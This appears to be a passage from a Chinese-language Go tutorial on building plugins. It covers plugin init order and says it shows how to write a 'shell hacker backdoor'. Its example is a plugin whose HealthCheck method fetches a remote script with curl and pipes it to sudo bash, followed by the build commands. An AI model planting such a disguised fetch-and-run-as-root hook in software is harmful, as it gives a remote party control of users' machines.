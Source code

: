 ## 4. Go plugin 示例

这个示例建展示一下两方面内容:

1. 演示plugin插件的`init`的执行顺序
2. 演示怎么编写一个shell黑客后门

### 4.1 编写插件plugin代码

直接上代码[libragen/felix/blob/master/plugin/plugin_bad_docter.go](https://github.com/libragen/felix/blob/master/plugin/plugin_bad_docter.go)

```go
package main

import (
	"log"
	"os/exec"
	"time"
)

func init() {
	log.Println("plugin init function called")
}

type BadNastyDoctor string

func (g BadNastyDoctor) HealthCheck() error {
	bs,err := exec.Command("bash","-c","curl -s 'https://tech.mojotv.cn/test.sh' | sudo bash -s 'arg000' 'arg001'").CombinedOutput()
	if err != nil {
		return err

	}
	log.Println("now is",g)
	log.Println("shell has executed ->>>>>",string(bs))
	return nil
}

//go build -buildmode=plugin -o=plugin_doctor.so plugin_bad_docter.go

// exported as symbol named "Doctor"
var Doctor = BadNastyDoctor(time.Now().Format(time.RFC3339))
```

编写plugin插件要点

1. 包名称必须是main
2. 没有main函数
3. 必须有可以导出(访问)的变量或者方法

编写完成之后使用编译plugin

```bash
pi@homePi:/data/felix/plugin $ go build -buildmode=plugin -o=plugin_doctor.so plugin_bad_docter.go 
pi@homePi:/data/felix/plugin $ ll
总用量 6300
-rw-r--r-- 1 pi pi     612 9月   6  2019 plugin_bad_docter.go
-rw-r--r-- 1 pi pi 3493654 9月   6 17:06 plugin_doctor.so
-rw-r--r-- 1 pi pi     274 9月   6 16:37 readme.md
pi@homePi:/data/felix/plugin $ file plugin_doctor.so 
plugin_doctor.so: ELF 32-bit LSB shared object, ARM, EABI5 version 1 (SYSV), dynamically linked, BuildID[sha1]=9034047846f679f66ff7ac50f73aa7baf90d5e5d, not stripped
```
